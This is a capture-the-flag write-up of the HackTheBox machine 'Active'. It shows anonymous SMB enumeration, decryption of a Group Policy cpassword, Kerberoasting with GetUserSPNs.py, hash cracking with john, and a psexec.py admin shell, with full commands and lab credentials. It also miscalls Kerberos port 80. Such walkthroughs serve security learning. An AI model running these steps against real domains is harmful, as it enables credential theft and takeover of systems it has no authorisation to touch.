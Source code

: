 ```yaml
---
layout: single
title:  "HTB - Active Writeup - 10.10.10.100"
date:   2020-06-16 16:49:23 +0100
categories: hackthebox
excerpt: My walkthrough / writeup of the HTB AD machine Active.
---
```

![HTB](/images/active/2020-06-16_16-56.png)

# HackTheBox - Active - 10.10.10.100

Active is a 30 point medium rated machine on hackthebox, it involved locating a groups.xml file and decrypting the cpassword inside to get user. Root required the use of `GetUserSPNs.py` to get the tgt of the Admin user who had a service principal name set and finally, `psexec.py` to gain an admin shell.

## 1. Recon 
To start this box off we will do an nmap scan of the target machine, 10.10.10.100  `nmap -sC -sV -oA nmap/active 10.10.10.100` 
### Nmap Scan Results

```
# Nmap 7.80 scan initiated Wed Apr 29 12:08:45 2020 as: nmap -sC -sV -oA nmap/active 10.10.10.100
Nmap scan report for 10.10.10.100
Host is up (0.056s latency).
Not shown: 983 closed ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-04-29 11:10:12Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

There are a few things to note here, firstly we have kerberos (port 80), ldap (port 389), rpc (port 135) and smb open on port 445. This tells us that this machine is probably an active directory domain controller, if it was not previously obvious by the machines name.

### SMB Shares
Firstly we will start by listing smb shares using anonymous credentials: `smbclient -L \\\\10.10.10.100\\ -U ""`

![HTB](/images/active/2020-06-16_17-46.png)

From this we can see an unusual share, *Replication* Let's try and view the conents of this share


## 2. Enumeration
Now to explore the *Replication* Share, we will use smbclient again: `smbclient \\\\10.10.10.100\\Replication`

![Share](/images/active/2020-06-16_17-52.png)

and as you can see we can access the share using anonymous login, now we can download all the files using the following commands:
`prompt OFF` `recurse ON` `mget *`

![downloading-files](/images/active/2020-06-16_17-55.png)

### Groups.xml
The file of note here is the Groups.xml file, this file is used by a windows service called *Group Policy Preferences* which allows domain admins to roll out passwords for local Administrators over Group Policy, the decryption key was leaked so now any password located inside a Groups.xml file can be decrypted. You can read more about this [Here](https://adsecurity.org/?p=2288) at adsecurity.org

Inside the groups.xml file we see:
![groups-xml](/images/active/2020-06-16_19-30.png)

The cpassword string is the encrypted password for the user  `SVC_TGS`. 

## 3. Exploitation
### Decrypting the cpassword
Kali has a built in utility called `gpp-decrypt` which will decrypt the cpassword string, you can read more about this tool [here](https://github.com/BustedSec/gpp-decrypt).

Now to decrypt the cpassword string from before we can type, `gpp-decrypt edBSHOwhZLTjt/QS9FeIc----------------Q`
![gpp-decrypt](/images/active/2020-06-16_19-35.png)


We now have the credentials of the user `SVC_TGS:GPPstillStandingStrong2k18` and we can attempt to connect to the **Users** SMB Share to grab `user.txt`

`smbclient \\\\10.10.10.100\\Users -U svc_tgs`
![user](/images/active/user.gif)

## 4. Privesc to Domain Admin
### Service Principal Names (SPN's)
Our user account `SVC_TGS` is able to find service principal names associated with user accounts in the domain, you could have found this out by having a look at the username and to see the TGT string at the end which signifies that this account may be able to see SPN's. Through this we are able to get the krb5-tgt of the `Administrator` account using a tool called `GetUserSPNs.py` from the Impacket Repo on [GitHub](https://github.com/SecureAuthCorp/impacket). If you want to know more about this attack I will leave a link to an ADSecurity article [here](https://adsecurity.org/?p=3466).


### Getting the TGT of the Admin User
The syntax for this command is as follows:
`GetUserSPNs.py active.htb/svc_tgs:GPPstillStandingStrong2k18 -request -dc-ip 10.10.10.100`

-dc-ip is the ip of the domain controller, 10.10.10.100
-request means that we want to request the tgt of any user that has a SPN 

![SPN](/images/active/2020-06-16_20-13.png)

Bingo!! We can now take this TGT to john the ripper to crack

#### Cracking the TGT

We will use john the ripper to crack the TGT, first by placing it in a file named `admin.hash` and then running the following command to run it against the rockyou.txt wordlist. 

`john -w=/usr/share/wordlists/rockyou.txt admin.hash`
![tgt-cracked](/images/active/cracking-tgt.gif)

This gives us the credentials, `Administrator:Ticketmaster1968`

### PSExec 

Now that we hgave the admin credentials we can use the `psexec.py` script from Impacket to gain a shell, if you would like to know more about the psexec.py script you can have a look [here](https://www.sans.org/blog/psexec-python-rocks/).

`psexec.py active.htb/Administrator:Ticketmaster1968`

![rooted](/images/active/root.gif)

## Rooted!!

If you enjoyed my write up or found it useful please check out my htb profile linked below and give a +rep

[![HTB](http://www.hackthebox.eu/badge/image/210952.png)](https://www.hackthebox.eu/home/users/profile/210952)

